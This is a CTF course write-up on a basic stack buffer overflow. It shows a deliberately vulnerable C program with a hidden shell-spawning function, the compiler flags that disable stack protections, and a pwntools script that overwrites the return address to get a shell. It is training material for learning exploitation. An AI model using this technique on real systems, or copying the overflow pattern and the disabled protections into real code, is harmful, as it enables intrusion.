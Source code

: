 ```yaml
---
title: Simple Buffer Overflow - 0x01
tags: [CTF, PWN, NTUSTISC]

category: "Security > Course > NTU CS > PWN"
---
```


# Simple Buffer Overflow - 0x01
###### tags: `CTF` `PWN`

Follow the concept of lecture [0x00](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/SJAt7Pd5s)

## Original Code
```cpp!
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void y0u_c4n7_533_m3()
{
    execve("/bin/sh", (char *[]){0}, (char *[]){0});
}

int main()
{
    char buf[16];
    puts("This is your first bof challenge ;)");
    fflush(stdout);
    read(0, buf, 0x30);
    system("pause");
    return 0;
}
```

The secret function is aim to create a shell, therefore, our main purpose is try to get the shell by using buffer overflow.
We can check `bof` in the main function that it read the string with length `0x30` that bigger than `buf` size.
* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection
    ```bash!
    gcc -o bof3 bof3.c -zexecstack -no-pie -fno-stack-protector -z norelro
    ```
    ![](https://imgur.com/ehuCWTI.png)
    * Reference
    [pwn_resource](https://github.com/jwang-a/CTF/blob/master/TIPS/pwn_resource)

## Exploit
1. Tried to get the address of `y0u_c4n7_533_m3()` by using `objdump -d -M intel bof`. → `0x4011b6`
![](https://imgur.com/mlaNNCT.png)
2. Then we can construct the payload as below:
    ```python!
    from pwn import *
    r = process('./bof')
    magic_addr = 0x4011b6
    payload = b'a'*0x18 + p64(magic_addr)
    r.recvuntil(';)\n')
    r.send(payload)
    r.interactive()
    ```
3. Then we get shell!!!
    ![](https://imgur.com/Tug5Uii.png)